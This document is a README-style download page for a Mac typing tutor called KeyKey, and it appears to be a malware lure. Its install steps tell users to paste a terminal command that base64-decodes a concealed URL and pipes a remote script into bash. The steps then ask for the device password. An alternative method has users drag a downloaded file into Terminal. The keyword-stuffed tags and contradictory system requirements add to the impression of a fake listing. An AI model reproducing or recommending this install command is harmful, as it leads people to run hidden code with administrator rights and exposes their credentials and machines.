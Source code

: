 # KeyKey for Mac – Typing Trainer & Keyboard Tutor

![KeyKey Screenshot](https://ph-files.imgix.net/bbf1b66a-c8d8-4b7b-b016-caf847b382fb.png?auto=format&fit=crop&frame=1&h=512&w=1024)

## 📥 Download KeyKey for macOS

[![⬇️ Download KeyKey Mac](https://img.shields.io/badge/Download-KeyKey%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/KeyKey)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is KeyKey for Mac?

KeyKey is a clean and distraction-free typing tutor designed for macOS. It adapts to your individual skill level and learning pace, offering touch typing training for multiple keyboard layouts including QWERTY, AZERTY, and Dvorak.

The app helps users, students, and professionals build muscle memory, improve typing accuracy, and increase speed through focused daily practice. With real-time stats, intelligent lesson progress, and zero unnecessary gamification, KeyKey keeps the learning process effective and minimalist.

---

![KeyKey Lesson View](https://macsources.com/wp-content/uploads/2018/06/KeyKey_1.jpg)

---

## ⚙️ Key Features

- ⌨️ **Adaptive Lessons** – Automatically adjusts to your typing level.
- 📊 **Real-Time Feedback** – Tracks speed, accuracy, and progress.
- 🌐 **Multilingual Layouts** – Supports QWERTY, AZERTY, Dvorak, and others.
- 🎯 **Distraction-Free UI** – No gamification, just clean focus.
- 📈 **Stats & Reports** – Visualize your learning curve and time invested.
- 💻 **macOS Native** – Built specifically for macOS Ventura and newer.
- 🧠 **Muscle Memory Training** – Efficient drills to reinforce habits.
- 🖥️ **Dark Mode Support** – Looks great on all macOS themes.

---

## 📦 System Requirements

- macOS 10.13 or later  
- Supports macOS Ventura, Monterey, Sonoma  
- Apple Silicon (M1/M2/M3) and Intel Macs  
- 100MB available disk space  

---

## 🔍 Tags

keykey mac, key key mac, keykey mac download, keykey mac free download, keykey typing tutor mac, keykey typing app, typing software for mac, keykey app osx, mac typing trainer, touch typing mac app, keyboard learning mac, type better mac, keykey qwerty layout, keyboard practice mac, typing speed app mac
